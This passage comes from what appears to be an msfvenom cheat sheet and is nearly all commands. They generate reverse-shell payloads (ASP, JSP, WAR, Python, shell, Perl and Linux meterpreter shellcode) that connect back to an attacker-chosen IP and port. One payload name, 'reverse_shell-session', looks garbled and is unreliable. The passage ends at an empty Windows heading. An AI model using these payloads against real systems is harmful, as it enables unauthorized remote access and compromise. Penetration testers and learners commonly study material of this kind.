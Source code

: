 - *ASP*

{% highlight shell-session %}
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
{% endhighlight %}

- *JSP*

{% highlight shell-session %}
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
{% endhighlight %}

- *WAR*

{% highlight shell-session %}
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
{% endhighlight %}

### **Scripting Payloads**

- *Python*

{% highlight shell-session %}
  msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
{% endhighlight %}

- *shell-session*

{% highlight shell-session %}
  msfvenom -p cmd/unix/reverse_shell-session LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
{% endhighlight %}

- *Perl*

{% highlight shell-session %}
  msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
{% endhighlight %}

### **Shellcode**

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

- *Linux Based Shellcode*

{% highlight shell-session %}
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
{% endhighlight %}

- *Windows Based Shellcode*
